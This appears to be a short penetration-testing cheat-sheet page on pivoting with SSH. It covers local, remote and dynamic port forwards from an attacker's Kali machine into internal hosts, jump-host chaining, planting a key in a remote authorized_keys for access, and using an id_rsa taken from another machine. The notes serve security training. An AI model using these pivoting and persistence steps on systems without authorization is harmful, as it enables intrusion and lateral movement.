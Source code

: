 ```yaml
---
title: SSH
parent: Pivot
layout: default
nav_order: 4
---
```


## Local Port Forward
On attacker PC, use\
`ssh -N -L 0.0.0.0:PORT:OTHERINTERNALSERVERIP:PORT user@remoteserver`\
For example can use to connect to SMB port 445 on 192.168.1.110 from SSH to 10.11.0.128\
`sudo ssh -N -L 0.0.0.0:445:192.168.1.110:445 student@10.11.0.128`

## Remote Port Forward
On remote PC, to connect to local(attacker Kali) use\
`ssh -N -R KALIIP:KALIPORT:INTERNALSERVICEIP:PORT kaliuser@kaliIP`

## Dynamic Port Forward
 On attacker PC, use `ssh -D localport user@remoteserver`\
 Can connect to it using Burp or use proxychains4.conf (SOCKS5)

## Jump Host
Use to connect from host1 to host2 and to host3 and so on\
`ssh -J username@host1:port,username@host2:port username@host3:port`


## Proper shell connection. 
On own Kali:\
`ssh-keygen`. Then use\
`cat ~/.ssh/id_rsa.pub`\
Copy this info into the remote PC's `~/.ssh/authorized_keys`.

If you have obtained the id_rsa from another PC and are in Windows, use\
`icacls .\id_rsa /inheritance:r`\
then\
`icacls .\id_rsa /grant:r %username%":"(R)"`